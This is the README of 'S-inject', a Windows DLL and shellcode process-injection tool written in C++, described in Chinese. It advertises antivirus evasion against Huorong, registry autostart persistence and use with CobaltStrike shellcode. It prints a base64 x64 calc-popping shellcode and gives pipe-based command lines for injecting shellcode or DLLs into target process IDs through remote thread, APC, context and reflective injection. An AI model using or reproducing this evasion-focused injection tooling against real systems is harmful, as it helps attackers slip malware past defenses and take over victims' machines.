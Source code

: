 ![](https://img.shields.io/badge/joe1sn-S_inject-green)  ![](https://img.shields.io/badge/windows-C++-yellow)

# S-inject

DLL+Shellcode的Windows注入免杀工具

![image-20240205141410967](./README.assets/image-20240205141410967.png)

只是罗列各种方法，免杀搭配其他技巧中要具体灵活使用

**须知：**

1. 反射式注入参考了著名github项目：https://github.com/stephenfewer/ReflectiveDLLInjection
   该项目为反射式注入支持的DLL
2. Shellcode使用base64编码后的shellcode
3. 相关测试的DLL文件在`Test Files`文件夹中

# 免杀效果

远程shellcode注入等功能可免杀火绒，VNC无感，可注册表添加开机自启动

![image-20240216112653373](D:\Github\S-inject\README.assets\image-20240216112653373.png)

![image-20240216113029381](D:\Github\S-inject\README.assets\image-20240216113029381.png)

![image-20240216113432922](D:\Github\S-inject\README.assets\image-20240216113432922.png)

![image-20240216113917066](D:\Github\S-inject\README.assets\image-20240216113917066.png)

# 支持功能

![image-20240205124826998](./README.assets/image-20240205124826998.png)

**DLL注入**

- 远程线程注入
- 反射式注入
- APC调度注入

**Shellcode注入**

- 远程线程注入
- APC调度注入
- Context上下文注入
- **可注入进程枚举**

# 使用

非交互式终端使用管道传参

- 注意cmd和powershell的区别

- 注意cmd字符串超过80个会自动换行，推荐搭配powershell

## Shellcode注入

这里以64为windows10版本Calc shellcode位例子(虽然会崩溃)
shellcode来源：https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode
base64编码后shellcode

```c
SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==
```

![image-20240205135709302](./README.assets/image-20240205135709302.png)

以CobaltStrike Shellcode为例子

![image-20240205140305351](./README.assets/image-20240205140305351.png)

### 关于使用不可交互终端

可以参考 DLL注入：B, 不可交互终端 部分，尝试利用管道加载

```powershell
#cmd
(echo <option> <base64 Shellcode>) | <S-inject Path>

#powershell
echo "<option index>`n`<pid>`n`<base64 Shellcode>" | <S-inject Path>

#(echo 4`n`16900`n`SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==) |  D:\Github\S-inject\x64\Release\S-inject.exe
```

![image-20240205140815069](./README.assets/image-20240205140815069.png)

## DLL注入

### A, 可交互终端

直接在终端中启动，根据菜单选择功能即可，如枚举可注入进程

![image-20240205125036362](./README.assets/image-20240205125036362.png)

### B, 不可交互终端

因为作者不想增加代码量，单独增添没有必要的参数功能，可以利用管道解决该问题
以下示例使用的注入对象更新前的为`x32dbg`和`x64dbg`，因为一个软件有两个位数的版本，在`x96dbg`中可以选择位数，便于测试

**如远程线程DLL注入**

x64

- powershell

  ```powershell
  echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205131438254](./README.assets/image-20240205131438254.png)

- cmd

  推荐使用powershell启动

  ```powershell
  powershell -c echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #powershell -c echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205131316348](./README.assets/image-20240205131316348.png)

  cmd.exe

  ```
  (echo <option> <DLL Path> &echo <PID>) | <S-inject Path>
  
  #(echo 1 D:\Github\S-inject\Test Files\TestDll_x64.dll &echo 22268) | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205135210534](./README.assets/image-20240205135210534.png)










